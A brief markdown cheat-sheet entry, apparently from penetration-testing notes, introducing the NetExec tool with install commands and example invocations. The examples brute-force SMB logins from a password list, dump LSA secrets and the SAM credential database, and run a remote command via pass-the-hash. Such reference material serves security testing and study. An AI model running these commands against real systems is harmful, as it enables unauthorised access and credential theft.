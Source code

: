 # NetExec

<div class="row row-cols-lg-2"><div>

[NetExec](https://github.com/Pennyw0rth/NetExec) or NXC <small>(1.6k ⭐)</small> is a fork of [CrackMapExec](cme.md) which is now archived. It can be used to brute force network services passwords.

The [wiki](https://www.netexec.wiki/) further lists everything else you can do.

```shell!
$ sudo apt install pipx git
$ pipx ensurepath
$ pipx install git+https://github.com/Pennyw0rth/NetExec
```
</div><div>

Example usage:

```shell!
$ nxc smb IP -u 'username' -p password.list
$ nxc smb IP --local-auth -u 'xxx' -p 'yyy' --lsa
$ nxc smb IP --local-auth -u 'xxx' -p 'yyy' --sam
$ nxc smb IP -u 'xxx' -d . -H hash -x whoami
```
</div></div>